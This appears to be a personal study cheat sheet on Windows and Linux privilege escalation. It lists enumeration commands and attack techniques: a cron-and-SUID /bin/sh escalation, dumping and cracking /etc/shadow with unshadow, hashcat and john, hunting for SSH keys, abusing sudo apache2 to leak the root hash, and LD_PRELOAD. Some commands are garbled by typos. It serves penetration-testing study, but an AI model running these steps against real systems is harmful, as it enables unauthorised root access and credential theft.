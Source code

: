 # Privilege-Escalation
[Manual Enumeration](https://www.notion.so/9c1d5126dce34940ab179be0e6ad28f5?pvs=21)

### Network Enum

| Type | Windows | Linux |
| --- | --- | --- |
| open-ports | ipconfig /all          || route print                                                 ||netstat -ano                                                             | ip a || ifconfig                                                       ss -anp ||    cat /sbin/route || netstat -anp |

### Firewall Enum

| Type | Linux | Windows |
| --- | --- | --- |
|  | iptables ⇒However, depending on how the firewall is configured, we may be able to glean information about the rules as a standard user      || /etc/iptables | netsh advfirewall show currentprofile           netsh advfirewall firewall show rule name=all  |

### Enumerating scheduled tasks

Scheduled task :



---

```bash
1. nano test.sh
2. chmod u+s /bin/sh
3. chmod +x test.sh
4. nano /etc/crontab
- * * * * * root /home/luka/test.sh
1. $ /bin/sh -p
2. $ whoami
```

---

in windows

```bash
schtasks /query /fo LIST /v     
```

---

### Enum installed applications and patch levels

for Windows :

```bash
- wmic product get name, version, vendor
- wmic qfe get capion, discription, hosfixid, nstalledon
```

for Linux

```bash
dpkg -l
```

---

### Enum readable/writable files and directories

- for windows
- exec tool like ⇒ accesschk

```bash
c:\Tools\privilege_escalation\SysinternalsSuite>accesschk.exe -uws "Everyone" "C:\Prog ram Files”
```

- powershell script :

```powershell
>Get-ChildItem "C:\Program Files" -R ecurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

- for linux

```bash
find / -writable -type d 2>/dev/null
```

---

### unmounted disks



- Windows

```powershell
mountvol
```

- Linux

```bash
mount
```

---

### Device Drivers and kernal modules



- Windows

```powershell
drivequery.exe /v /fe csv | convertfrom-csv | select-object ‘display name’, ‘start mode’, path 
```

- Linux

```bash
1. lsmod
2. modinfo <modulename>
```

====================================

## Automation

===============

Runas escalation via ⇒ CVE-2019-1388

===============

# Linux privesc

exploits:

1. kernel exploits: ⇒ vuls in version ... EX.( dirty c0w)
2. stored passwords (config files)
3. stored passwords (History) .. /.bash_history
4. weak permission ⇒ /etc/shadow —> unshadow passwd shadow > output.txt —→ crack

$hashcat -m 1800 output.txt rockyou.txt -O

1. ssh keys —→ find / -name id_rsa 2> /dev/null
2. shell escaping ⇒sudo -l 
3. sudo abusing intended functionality

⇒sudo apache2 -f /etc/shadow ⇒root hash ⇒ echo ‘[ root hash ]’ > x.txt

john —wordlist=/user/share/wordlist/nmap.lst x.txt

1. sudo (LD_PRELOAD)
